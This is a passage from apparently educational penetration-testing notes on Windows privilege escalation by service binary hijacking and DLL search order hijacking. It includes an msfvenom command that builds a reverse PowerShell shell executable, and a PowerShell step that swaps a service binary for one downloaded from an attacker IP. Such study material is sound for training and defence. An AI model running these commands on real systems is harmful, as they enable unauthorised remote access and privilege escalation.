 {% tab title="2. Payload" %}
{% code overflow="wrap" %}
```bash
# Created a revershe shell payload
msfvenom -p cmd/windows/reverse_powershell LHOST=192.168.49.117 LPORT=80 -f exe -o revshell.exe
```
{% endcode %}
{% endtab %}

{% tab title="3. Hijack" %}
```powershell
# Backup the original binary
move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.back

# Download the malicious binary
iwr http://192.168.45.226/revshell.exe -outfile BackendCacheCleanup.exe
```
{% endtab %}
{% endtabs %}

## DLL Hijacking <a href="#dll-hijacking" id="dll-hijacking"></a>

If binary service hijacking isn't possible due to permission restrictions, DLL hijacking, a more **stealthier** method, can be used. DLLs are essential components that provide shared functionality to Windows programs. By **replacing a DLL** that a service depends on, malicious code can be injected while maintaining the service's functionality.

> _DLLs are called **Shared Objects** on Unix._

When a program needs a DLL, Windows follows a predefined search order to locate it. To improve security, Microsoft introduced **safe DLL search mode**_,_ which prioritizes system directories to prevent unauthorized DLL loading. The standard search order is:

```
1. The directory from which the application loaded.
2. The System directory.
3. The 16-bit System directory.
4. The Windows directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```

However, if a program looks for a **missing DLL** (due to installation issues or updates), a malicious DLL can be placed with the same name in a directory higher in the search order, a technique known as **DLL search order hijacking**.

{% code overflow="wrap" %}
```powershell
# List available services
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

displayname
-----------

FileZilla 3.63.1
<SNIP>
```
{% endcode %}
